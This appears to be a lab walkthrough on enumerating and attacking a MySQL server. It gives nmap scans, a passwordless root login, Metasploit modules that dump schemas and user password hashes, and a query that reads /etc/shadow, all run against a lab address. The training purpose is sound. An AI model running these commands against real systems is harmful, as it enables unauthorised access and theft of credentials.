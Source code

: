 ### MySQL Basics

```bash
john@kali> ip a

# 1. What is the version of MySQL server?
john@kali> nmap 192.193.26.3 -sV

# 2. What command is used to connect to remote MySQL database?
john@kali> mysql -h 192.193.26.3 -u root

# 3. How many databases are present on the database server?
MySQL> show databases;

# 4. How many records are present in table “authors”? This table is present inside the “books” database.
MySQL> use books;
MySQL> select count(*) from authors;

# 5. Dump the schema of all databases from the server using suitable metasploit module?
john@kali> msfconsole
msf5> use scanner/mysql/mysql_schemadump
msf5> set rhosts 192.193.26.3
msf5> set username root
msf5> run

# 6. How many directories present in the /usr/share/metasploit-framework/data/wordlists/directory.txt, are writable? List the names.
msf5> use scanner/mysql/mysql_writable_dirs
msf5> set rhosts 192.193.26.3
msf5> set verbose false
msf5> set dir_list /usr/share/metasploit-framework/data/wordlists/directory.txt
msf5> set file_name test
msf5> run

# 7. How many of sensitive files present in /usr/share/metasploit-framework/data/wordlists/sensitive_files.txt are readable? List the names.


# 8. Find the system password hash for user "root".
MySQL> select load_file('/etc/shadow');

# 9. How many database users are present on the database server? Lists their names and password hashes.
msf5> use scanner/mysql/mysql_hashdump
msf5> set rhosts 192.193.26.3
msf5> set username root
msf5> run

# 10. Check whether anonymous login is allowed on MySQL Server.
john@kali> nmap 192.193.26.3 -p 3306 --script mysql-empty-password

# 11. Check whether “InteractiveClient” capability is supported on the MySQL server.
john@kali> nmap 192.193.26.3 -p 3306 --script mysql-info

# 12. Enumerate the users present on MySQL database server using mysql-users nmap script.
john@kali> nmap 192.193.26.3 -p 3306 --script mysql-users --script-args 'mysqluser=root'

# 13. List all databases stored on the MySQL Server using nmap script.
john@kali> nmap 192.193.26.3 -p 3306 --script mysql-databases --script-args 'mysqluser=root'

# 14. Find the data directory used by mysql server using nmap script.
john@kali> nmap 192.193.26.3 -p 3306 --script mysql-variables --script-args 'mysqluser=root'
```